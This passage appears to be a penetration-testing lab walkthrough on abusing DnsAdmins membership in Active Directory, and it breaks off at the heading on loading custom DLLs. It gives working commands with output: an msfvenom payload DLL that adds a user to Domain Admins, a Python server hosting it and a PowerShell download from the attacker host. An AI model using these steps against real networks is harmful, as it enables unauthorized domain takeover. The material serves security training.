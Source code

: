 ### Generating Malicious DLL

We can generate a malicious DLL to add a user to the `domain admins` group using [msfvenom.md](../../../../toolbox/tooling/exploitation-tools/metasploit/msfvenom.md "mention").

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

```shell-session
clue@machine[~]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll
```

### Starting Local HTTP Server

Then we start a Python HTTP Server.

```shell-session
clue@machine[~]$ python3 -m http.server 7777

Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.129.43.9 - - [19/May/2021 19:22:46] "GET /adduser.dll HTTP/1.1" 200 -
```

### Downloading File to Target

Download the file to the target.

```powershell
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

### Loading DLLs as a Member of DnsAdmins

```powershell
C:\> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109
```

### Loading Custom DLLs
